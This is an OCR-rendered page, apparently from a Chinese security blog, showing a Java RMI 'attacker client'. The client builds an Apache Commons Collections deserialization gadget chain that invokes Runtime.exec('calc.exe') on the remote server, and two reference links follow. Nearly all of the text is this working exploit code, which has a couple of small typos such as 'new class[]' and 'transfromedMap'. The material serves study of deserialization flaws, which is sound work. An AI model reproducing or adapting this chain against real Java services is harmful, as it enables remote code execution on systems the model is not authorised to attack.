 客户端(攻击者)：

```java
public class Client {
    public static void main(String[] args) throws Exception {
        String url = "rmi://127.0.0.1:1099/User";
        User userClient = (User)Naming.lookup(url);
        
        System.out.println(userClient.name("lala"));
        userClient.say("world");
        userClient.dowork(getpayload());
    }
    
    public static Object getpayload() throws Exception {
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new class[]{String.class,
                Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, 
                Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class},
                                  new Object[]{"calc.exe"})
        };
        
        Transformer transformerChain = new ChainedTransformer(transformers);
        
        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);
        
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transfromedMap);
        
        return instance;
    }
}
```









[https://xz.aliyun.com/t/4711#toc-7](https://xz.aliyun.com/t/4711#toc-7)

[https://xz.aliyun.com/t/6660#toc-3](https://xz.aliyun.com/t/6660#toc-3)

